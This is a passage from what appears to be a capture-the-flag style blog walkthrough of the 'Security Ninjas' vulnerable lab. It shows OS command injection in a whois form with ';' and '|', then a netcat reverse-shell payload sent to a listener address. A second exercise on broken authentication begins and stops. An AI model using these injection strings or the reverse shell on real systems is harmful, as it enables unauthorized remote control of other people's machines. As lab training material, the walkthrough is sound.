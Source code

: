 This is Vulnerable Mcachine ```Security Ninjas```.

We can test this for common web vulnerabilities

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/daaddc57-1780-4268-b995-afff747dbbaf)

Well, lets dig in


# A1
<hr>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/17788d91-cbd8-4094-a1c4-63fe307635dc)

We were told that this page has an ```OS Command Injection``` flaw

Lets provide a domain name say ```google.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84db4b64-e987-4ed0-9fcb-eee65f7835f9)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/89c48ad7-31a2-4491-9d29-a7c7f0085987)

So we got the whois look up results for the domain name ```google.com```

The ```semicolon(;)``` is often used as a delimiter so seperate multiple commands within a single input field. So, we can try to use the ```semicolon(;)``` character to run multiple commands.

For example lets say we want to run the ```id``` command alongside the domain name we provided. So, we'll be having an input like this ```google.com;id```

Lets try to execute this to see what happens

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/730ee60f-38a8-4c9a-85a4-5cf2f525d477)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7a23174f-f258-4b4d-8bad-91b5efffcb21)

Scrolling down,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6cef73f1-ffc0-4d30-858d-a7a1e4217465)

It worked hehe, we were able to successfully execute the linux command

Other delimiter characters like ```|``` and ```||``` also works

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a25768ec-3be8-489a-9333-e3c310810ef2)

Lets get a reverse shell from this

payload:```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f```

Ensure you set up a netcat listener

So, our input would look like this ```google.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.168 1234 >/tmp/f```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6f015db-919f-44b6-82ef-1c31a1c74737)

Checking my netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/26861a22-4676-4f97-af6f-8a515b1e3055)

I was able to get a reverse shell.

Well, that's all for this challenge since we've successfully exploited the vulnerability there. 

--------------------------

# A2
<hr>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11a9f185-7ec9-4718-9d2f-201b125f8df8)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a6fc465-dff6-4ecf-8bde-eb388da15227)

So the exercise here is to get ```user2``` personal information by exploiting the ```Broken Authentication and Session Management``` vulnerability















